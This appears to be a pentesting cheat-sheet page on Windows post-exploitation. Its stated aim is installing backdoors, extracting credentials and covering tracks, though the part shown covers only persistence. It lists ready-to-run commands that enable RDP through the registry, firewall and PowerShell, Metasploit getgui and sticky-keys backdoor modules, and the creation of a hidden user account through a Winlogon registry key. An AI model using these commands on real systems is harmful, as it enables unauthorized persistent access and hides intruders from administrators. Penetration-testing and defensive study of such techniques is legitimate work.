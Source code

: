```yaml
---
title: 6. Post-exploitation - Windows
categories:
  - Pentesting
  - Windows
tags:
  - Pentesting
  - Windows
  - Post-exploitation
toc: true
---
```


---
Step 6: Post exploitation.
Install backdoors, extract credentials and relevant data, clean step foots. 

---
<!-- more -->

<br>


## Persistence

### RDP
```batch Allow RDP through Registry (as administrator)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
```batch Allow RDP through the Windows Firewall (as administrator)
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
```pwsh Allow RDP through Powershell (as administrator)
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
```
<br>
```bash Metasploit - show GUI
run getgui -e -u 'user' -p 'password'
```
<br>
```bash Metasploit - sticky keys
use post/windows/manage/sticky_keys
set session 1
exploit
```

<br>

```batch Create a hidden user
net user hiddenuser "password" /add
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v hiddenuser /t REG_DWORD /d 0 /f
```

<br>

---
---